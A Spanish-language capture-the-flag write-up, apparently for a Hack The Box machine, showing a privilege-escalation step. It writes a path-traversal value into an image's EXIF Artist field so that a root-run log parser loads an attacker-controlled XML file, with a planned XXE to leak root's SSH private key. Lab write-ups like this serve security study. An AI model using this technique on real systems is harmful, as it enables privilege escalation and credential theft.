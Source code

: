 Vemos algunas tareas tanto de `root` como de `woodenk`, si nos vamos de nuevo a `/opt/panda_search/` vemos algo interesante:

```bash wrap=false
woodenk@redpanda:/opt/panda_search$ ls -la
total 48
drwxrwxr-x 5 root root  4096 Jun 14  2022 .
drwxr-xr-x 5 root root  4096 Jun 23  2022 ..
drwxrwxr-x 3 root root  4096 Jun 14  2022 .mvn
-rwxrwxr-x 1 root root 10122 Jun 14  2022 mvnw
-rw-rw-r-- 1 root root  6603 Feb 21  2022 mvnw.cmd
-rw-rw-r-- 1 root root  2577 Apr 27  2022 pom.xml
-rw-rw-r-- 1 root logs     1 Oct  5 21:28 redpanda.log
drwxrwxr-x 4 root root  4096 Jun 14  2022 src
drwxrwxr-x 9 root root  4096 Jun 22  2022 target
```

El archivo `redpanda.log` es de `root`, si pudiesemos colar algo para escalar privilegios, estaría muy bien. Vamos a ver como se genera este archivo:

```bash wrap=false
woodenk@redpanda:/opt$ grep -r "redpanda.log" 2>/dev/null
Binary file panda_search/target/classes/com/panda_search/htb/panda_search/RequestInterceptor.class matches
panda_search/src/main/java/com/panda_search/htb/panda_search/RequestInterceptor.java:        FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
Binary file credit-score/LogParser/final/target/classes/com/logparser/App.class matches
credit-score/LogParser/final/src/main/java/com/logparser/App.java:        File log_fd = new File("/opt/panda_search/redpanda.log");
```

Si analizamos el flujo de lo que pasa en ese archivo, veremos que es posible realizar un `XXE`. A continuación cómo lo haremos:

```txt wrap=false title='Flujo del programa'
# Log de imagen en /opt/redpanda_search/redpanda.log
200||10.10.14.15||curl/8.15.0||/img/smiley.jpg

1. Se genera el path -> "/opt/panda_search/src/main/resources/static" + "/img/smiley.jpg" -> uri (Ruta Absoluta)
2. Metadata de la imagen -> Artist -> ../../../../../../tmp/zelpro.jpg -> Para sustituirlo en el siguiente paso
3. "/credits/" + artist + "_creds.xml" -> /credits/../../../../../../tmp/zelpro_creds.xml

Ahora la idea es que como podemos modificar ese xml y root lo va a interpretar, podríamos intentar un XXE para filtrar el id_rsa del usuario root.
```

Vamos a realizar el ataque:

```bash wrap=false intitle='Modificamos los metadatos de la imagen'
❯ exiftool -Artist=../../../../../../tmp/zelpro zelpro.jpg
    1 image files updated
❯ exiftool zelpro.jpg
ExifTool Version Number         : 13.25
File Name                       : zelpro.jpg
Directory                       : .
File Size                       : 200 kB
File Modification Date/Time     : 2025:10:06 21:45:46+02:00
File Access Date/Time           : 2025:10:06 21:45:46+02:00
File Inode Change Date/Time     : 2025:10:06 21:45:46+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 1
```